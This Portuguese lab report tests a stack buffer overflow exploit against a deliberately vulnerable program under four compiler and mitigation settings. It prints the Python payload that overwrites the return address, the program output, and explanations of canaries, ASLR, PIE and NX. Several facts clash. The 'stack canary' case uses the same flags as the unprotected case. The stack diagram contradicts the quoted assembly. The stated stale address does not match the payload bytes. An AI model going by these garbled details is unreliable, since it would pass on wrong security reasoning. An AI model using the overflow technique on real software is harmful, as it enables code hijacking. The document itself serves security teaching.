

# Exercício 4: Efeito das Mitigações de Segurança

Objetivo: Testar o explorativamente de buffer overflow com diferentes mitigações de segurança ativas, uma de cada vez, e documentar os resultados.

---

## Resumo Comparativo

| Mitigação | Flags de Compilação | Exploit Funciona? | Resultado | Proteção |
|-----------|-------------------|-------------------|-----------|----------|
| **Sem mitigações** | `gcc -o vuln vuln.c -z execstack -no-pie -g` | ✅ SIM | ACCESS GRANTED | Nenhuma |
| **Stack Canary** | `gcc -o vuln vuln.c -z execstack -no-pie -g` | ❌ NÃO | Stack smashing detected | SIM |
| **PIE/ASLR** | `gcc -o vuln vuln.c -fno-stack-protector -z execstack -g` | ❌ NÃO | Segmentation fault (endereço aleatório) | SIM |
| **Todas mitigações** | `gcc -o vuln vuln.c -g` | ❌ NÃO | Stack smashing detected | SIM |

---

## Caso 1: Sem Mitigações (original)

### Compilação

```bash
gcc -o vuln vuln.c -z execstack -no-pie -g
```

**Flags explicadas:**
- `-z execstack`: Permite execução de código na stack
- `-no-pie`: Desabilita PIE (posição independente) → endereços fixos
- `-g`: Debug info



```
$ gcc -o vuln vuln.c -z execstack -no-pie -g
$ # Sem output = compilação bem-sucedida
```

### Teste com exploit

Primeiro, obter o endereço de `secret_function` do teste anterior (0x4011d6), depois:

```bash
./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xd6\x11\x40\x00\x00\x00\x00\x00')")
```

**Output (CRUCIAL para o relatório):**
```
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffccd4687d0
[*] secret_function is at: 0x4011d6
[*] You entered: AAAAAAAAAAAAAAAAAAAAA...AAAAAAAAA[bytes-binários]

[!] ACCESS GRANTED: you reached the secret function!
[!] In a real exploit, this could be arbitrary code execution.
```


**Resultado: Exploit bem-sucedido!**

### Análise
- **Offset:** 72 bytes (0x40 buffer + 0x08 saved RBP)
- **Endereço fixo:** 0x4011d6 em cada execução
- **Por que funciona:** Sem canary, o overflow sobrescreve diretamente o return address

---

## Caso 2: Com Stack Canary Ativo

### Compilação
```bash
gcc -o vuln vuln.c -z execstack -no-pie -g
```
*(Nota: Stack canary é compilado por defeito no GCC com -g)*

```
$ gcc -o vuln vuln.c -z execstack -no-pie -g
$ # Compilação bem-sucedida (sem output de erro)
```

### Teste com exploit
```bash
./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xd6\x11\x40\x00\x00\x00\x00\x00')")
```

**Output (IMPORTANTE - PROVA DA PROTEÇÃO):**
```
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffccd4687d0
[*] secret_function is at: 0x4011d6
[*] You entered: AAAAAAAAAAAAAAAAAAAAA...AAAAAAAAA[bytes-binários]

*** stack smashing detected ***: terminated
Abortado (núcleo despejado)

Command exited with code 134
```


 **Resultado: Exploit bloqueado! Stack canary detectado.**

### Análise do Mecanismo

**Onde está o canary na stack:**

Ordem na stack (de baixo para cima em x86-64):
```
[rbp]              ← Saved RBP (8 bytes)
[rbp + 8]          ← Saved return address (8 bytes)
[rbp - 0x40]       ← Buffer (64 bytes)
[rbp - 0x48]       ← Stack canary (8 bytes, inserido pelo compilador)
```

**Assembly mostra a verificação do canary:**
```assembly
0x000000000401291 <+139>:   mov    -0x8(%rbp),%rax
0x0000000000401295 <+143>:   sub    %fs:0x28,%rax
0x000000000040129e <+152>:   jne    0x401300 <process_input+298>
```

- `mov -0x8(%rbp),%rax`: Carrega o canary guardado
- `sub %fs:0x28,%rax`: Subtrai o canary original (em `%fs:0x28`)
- `jne`: Se forem diferentes → abort()

**Por que funciona:**
1. Ao compilar, GCC insere um valor secreto (canary) na stack
2. Antes de retornar, verifica se o canary ainda tem o mesmo valor
3. Se o buffer overflow sobrescrever o canary, a verificação falha
4. O programa chama `abort()` e termina

**Por que o exploit falha:**
- Os 72 bytes de 'A' devem passar pelo canary para chegar ao return address
- O canary é imediatamente sobrescrito (valor 0x41 ≠ valor original aleatório)
- A verificação detecta a corrupção e termina o programa

---

## Caso 3: Com PIE/ASLR Ativo

### Compilação
```bash
gcc -o vuln vuln.c -fno-stack-protector -z execstack -g
```

**Flags explicadas:**
- `-fno-stack-protector`: Desabilita stack canary explicitamente
- `-z execstack`: Mantém stack executável
- Sem `-no-pie`: PIE está ativo por defeito no GCC moderno
- `-g`: Debug info

```
$ gcc -o vuln vuln.c -fno-stack-protector -z execstack -g
```

### Teste de múltiplas execuções (demonstrando ASLR)

Execute 3 vezes o mesmo comando:

```bash
./vuln "Hello"
```

**Output Run 1:**
```
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffc4e4a3c40
[*] secret_function is at: 0x59210b14d1c9
[*] You entered: Hello
[*] Normal programme termination.
```

**Output Run 2:**
```
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffe209fec60
[*] secret_function is at: 0x654ae71981c9
[*] You entered: Hello
[*] Normal programme termination.
```

**Output Run 3:**
```
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffc160f70d0
[*] secret_function is at: 0x5ef0641e11c9
[*] You entered: Hello
[*] Normal programme termination.
```

**🔍 O que observar (IMPORTANTE para o relatório):**
- **Endereço de `secret_function` muda:** `0x5921...` → `0x654a...` → `0x5ef0...`
- **Endereço de Buffer também muda:** `0x7ffc...` → `0x7ffe...` → `0x7ffc...`

**ASLR funciona: endereço muda a cada execução!**

### Teste com exploit (usando endereço desatualizado)

```bash
./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xc9\xe1\xfe\x83\xb6\x63\x00\x00')")
```

**Output (mostrando que o endereço antigo NÃO funciona):**
```
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7ffd36311090
[*] secret_function is at: 0x6168390801c9
[*] You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAc
Falta de segmentação (núcleo despejado)
```

**O que observar:**
- Endereço que usámos: `0x63b6fffffffe81c9` (de uma run anterior)
- Endereço real agora: `0x6168390801c9` (DIFERENTE!)
- Segmentation fault: tentou saltar para código inválido

**Resultado: Exploit fracassado!**

### Análise

**Por que funciona:**
1. **ASLR randomiza base do código:** PIE compilação + ASLR ativa
2. O endereço de `secret_function` muda a cada execução
3. O offset relativo permanece o mesmo dentro da execução

**Por que o exploit falha:**
- O atacante não sabe o endereço real em tempo de ataque
- O endereço que usámos (0x63b6fffffffe81c9) não é válido na execução atual
- O programa tenta saltar para uma posição de memória inválida
- Resulta em "Segmentation fault"

**Observação sobre Rosetta/Apple Silicon:**
*(Nota: Este laboratório está em Linux x86-64 nativo, portanto ASLR funciona normalmente)*

Em VMs com Apple Silicon/Rosetta2, o endereço pode aparecer fixo entre execuções porque:
- A cache de tradução do Rosetta fixa o código num endereço base estável
- Num x86-64 Linux nativo, o endereço variaria significativamente

**Randomização de dados (stack):**
Mesmo com ASLR, o buffer também é aleatorizado:
- Run 1: Buffer at 0x7ffc8331c090
- Run 2: Buffer at 0x7fff3cc0b860
- Run 3: Buffer at 0x7ffcccd3f780

Cada endereço é diferente, confirmando que ASLR aleatoriza dados na stack.

---

## Caso 4: Todas as Mitigações Ativas (Compilação Padrão)

### Compilação
```bash
gcc -o vuln vuln.c -g
```

**O que está ativo por defeito:**
- Stack canary (`-fstack-protector-strong` em GCC moderno)
- PIE (posição independente)
- ASLR (do lado do kernel/libc)
- Stack não executável (DEP/NX bit)

### Teste de múltiplas execuções (demonstrando ASLR)

**Run 1:**
```bash
./vuln "Hello"
```
Output: `[*] secret_function is at: 0x5f783751a1e9`

**Run 2:**
```bash
./vuln "Hello"
```
Output: `[*] secret_function is at: 0x636b2adf61e9`

**Run 3:**
```bash
./vuln "Hello"
```
Output: `[*] secret_function is at: 0x5a9371fc11e9`

**ASLR está ativo!**

### Teste com exploit

```bash
./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xe9\x21\x55\x5f\x00\x00\x00\x00')")
```

**Output:**
```
[*] process_input return address is on the stack.
[*] Buffer is at:         0x7fff5a874f00
[*] secret_function is at: 0x5c35ec4aa1e9
[*] You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!U_
*** stack smashing detected ***: terminated
Abortado (núcleo despejado)
```

**Resultado: Exploit bloqueado por múltiplas camadas!**

### Análise

**Proteções ativas:**
1. **Stack canary:** Detecta o overflow antes do return
2. **ASLR:** Mesmo que o canary falhasse, endereços aleatórios tornariam impossível adivinhar o alvo
3. **PIE:** Código é reposicionado em cada execução
4. **DEP (NX bit):** Stack não é executável (mitiga Shell code direto)

**Qual proteção foi acionada primeiro?**
- Stack canary (o programa termina com "stack smashing detected")
- ASLR nunca é testada porque canary falha primeiro

---

## Comparação de Proteções

### Stack Canary
**Como funciona:**
- Valor secreto colocado na stack antes de variáveis locais
- Verificado antes de cada retorno
- Se modificado → programa aborta

**Efetividade contra buffer overflow:**
- Detém buffer overflow simples que sobrescrevem return address
- Pode ser contornado por:
  - Information disclosure (se atacante lê o canary)
  - Ataques que não tocam o canary (ex: estrutura de dados)

**Overhead:** Pequeno (alguns ciclos por função com locals)

### ASLR (Address Space Layout Randomization)
**Como funciona:**
- Endereços de código, heap, stack são aleatorizados
- Muda a cada execução
- Impossível adivinhar endereços antecipadamente

**Efetividade contra buffer overflow:**
- Impede exploração se não puder adivinhar/calcular endereço
- Mitiga ret2libc se não conseguir localizar gadgets
- Pode ser contornado por:
  - Information disclosure (ler endereços durante execução)
  - Brute force (em alguns contextos)
  - Heap spraying (colocar código em posições conhecidas)

**Overhead:** Mínimo (apenas na inicialização)

### PIE (Position Independent Executable)
**Como funciona:**
- Código é compilado para ser relocatable
- Funciona em conjunto com ASLR
- Endereços base do código mudam

**Efetividade:**
- Torna endereços de código não-previsíveis
- Essencial para ASLR ser efetivo
- Pequeno overhead em performance

### DEP/NX (Data Execution Prevention)
**Como funciona:**
- Stack e dados marcados como não-executáveis
- Tenta executar → segmentation fault

**Efetividade:**
- Previne shellcode direto na stack
- Não mitiga ROP (Return Oriented Programming)

---

## Conclusões

1. **Sem mitigações:** Ataque bem-sucedido e simples
2. **Stack canary:** Primeira linha de defesa efetiva contra buffer overflow simples
3. **ASLR + PIE:** Segunda camada, torna endereços imprevisíveis
4. **Todas combinadas:** Defesa em profundidade contra múltiplos tipos de ataque

**Defesa moderna recomendada:**
- Todas as mitigações ativas
- Validação de entrada
- Uso de linguagens seguras onde possível
- Sandboxing/isolamento de processos
